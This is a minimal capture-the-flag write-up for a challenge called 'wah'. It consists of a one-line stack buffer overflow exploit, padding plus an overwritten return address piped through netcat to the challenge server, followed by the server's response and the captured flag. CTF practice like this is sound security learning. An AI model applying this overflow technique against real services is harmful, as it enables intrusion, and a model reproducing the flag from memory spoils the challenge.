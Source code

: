 # wah  
```
$ python -c "print('A'*0x28+'\x36\x12\x40\x00\x00\x00\x00\x00')" | nc challs.actf.co 31224
Cry: actf{lo0k_both_w4ys_before_y0u_cros5_my_m1nd_c9a2c82aba6e}

```
flag: `actf{lo0k_both_w4ys_before_y0u_cros5_my_m1nd_c9a2c82aba6e}`  
